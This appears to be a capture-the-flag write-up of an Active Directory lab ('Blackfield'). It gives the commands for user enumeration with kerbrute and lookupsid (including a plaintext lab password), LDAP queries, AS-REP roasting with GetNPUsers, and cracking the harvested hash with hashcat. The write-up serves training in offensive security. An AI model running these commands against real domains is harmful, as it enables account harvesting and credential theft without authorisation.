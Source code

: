 ## AD Initial Enumeration

### User Enumeration

Unauthenticated

```bash
./kerbrute_linux_amd64 userenum -d blackfield.local --dc $IP /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 70
```

![image.png](image%208.png)

Authenticated

```bash
 lookupsid.py flight.htb/svc_apache:'S@Ss!K@*t13'@flight.htb | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee users
```

### Port 389/3268

```bash
ldapsearch -H ldap://$IP -x -s base -b '' "(objectClass=*)" "*" +
```

```powershell
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=<RHOST>,DC=local" 
```

## Initial Attack Vectors

### AS-REP Roasting

```bash
GetNPUsers.py blackfield.local/ -dc-ip $IP -no-pass -usersfile users
```

## Exploitation

As I have a list of potential usernames I can try for AS-REP Roasting. Among all invalid usernames and unsuccessful output I see one hash:

![image.png](image%209.png)

It is a support user that we identified before while enumerating domain users.

Let’s crack it now:

```bash
hashcat -m 18200 support.hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%2010.png)
